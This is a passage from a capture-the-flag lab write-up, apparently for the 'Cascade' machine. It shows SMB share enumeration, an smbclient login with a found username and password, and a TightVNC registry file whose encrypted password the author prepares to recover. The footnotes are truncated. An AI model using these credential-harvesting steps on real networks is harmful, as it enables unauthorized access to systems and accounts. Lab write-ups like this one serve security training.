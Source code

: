 ``` 
dr--r--r--        0 Wed Jan 15 16:50:33 2020	..
fr--r--r--      258 Wed Jan 15 16:50:14 2020	MapAuditDrive.vbs
fr--r--r--      255 Wed Jan 15 16:51:03 2020	MapDataDrive.vbs
NETLOGON                                      	READ ONLY	Logon server share 
.                                                  
dr--r--r--        0 Thu Jan  9 18:06:29 2020	.
dr--r--r--        0 Thu Jan  9 18:06:29 2020	..
dr--r--r--        0 Thu Jan  9 18:06:29 2020	color
dr--r--r--        0 Thu Jan  9 18:06:29 2020	IA64
dr--r--r--        0 Thu Jan  9 18:06:29 2020	W32X86
dr--r--r--        0 Sun Jan 12 22:09:11 2020	x64
print$                                       	READ ONLY	Printer Drivers
.                                                  
dr--r--r--        0 Thu Jan  9 10:31:27 2020	.
dr--r--r--        0 Thu Jan  9 10:31:27 2020	..
dr--r--r--        0 Thu Jan  9 10:31:27 2020	cascade.local
SYSVOL                                        	READ ONLY	Logon server share 
```

Time to enumerate these shares!

User
----

### *VNC*

We connect to the `Data` share with

`smbclient \\\\10.10.10.182\\Data -U r.thompson%rY4n5eva`

and retrieve several files from `\\10.10.10.182\Data\IT\Temp\s.smith\`,
the most interesting of them being `VNC Install.reg`. We view its
content with `cat VNC\ Install.reg` :

```cat VNC\ Install.reg 
Windows Registry Editor Version 5.00

[HKEY_LOCAL_MACHINE\SOFTWARE\TightVNC]

[HKEY_LOCAL_MACHINE\SOFTWARE\TightVNC\Server]
"ExtraPorts"=""
"QueryTimeout"=dword:0000001e
"QueryAcceptOnTimeout"=dword:00000000
"LocalInputPriorityTimeout"=dword:00000003
"LocalInputPriority"=dword:00000000
"BlockRemoteInput"=dword:00000000
"BlockLocalInput"=dword:00000000
"IpAccessControl"=""
"RfbPort"=dword:0000170c
"HttpPort"=dword:000016a8
"DisconnectAction"=dword:00000000
"AcceptRfbConnections"=dword:00000001
"UseVncAuthentication"=dword:00000001
"UseControlAuthentication"=dword:00000000
"RepeatControlAuthentication"=dword:00000000
"LoopbackOnly"=dword:00000000
"AcceptHttpConnections"=dword:00000001
"LogLevel"=dword:00000000
"EnableFileTransfers"=dword:00000001
"RemoveWallpaper"=dword:00000001
"UseD3D"=dword:00000001
"UseMirrorDriver"=dword:00000001
"EnableUrlParams"=dword:00000001
"Password"=hex:6b,cf,2a,4b,6e,5a,ca,0f
"AlwaysShared"=dword:00000000
```

[^1]: Simply hit `enter` when prompted for a password.
[^2]: Available in its online version at
[^3]: Output slightly modified for readability.
[^4]: For further information on *VNC* passwords and how to retrieve and
[^5]: <https://securityxploded.com/vnc-password-recovery.php>, last
[^6]: Output slightly modified for readability.
[^7]: I used a program that ships with *Kali*, `DB Browser for SQLite`,
[^8]: Personally, I like *Jetbrain*'s *dotPeek* a lot :
[^9]: Of course, the *Chef* isn't the only tool up to the task - you
[^10]: At this point, I wasn't too sure where the journey would lead me
[^11]: For more information on restoring deleted *Active Directory*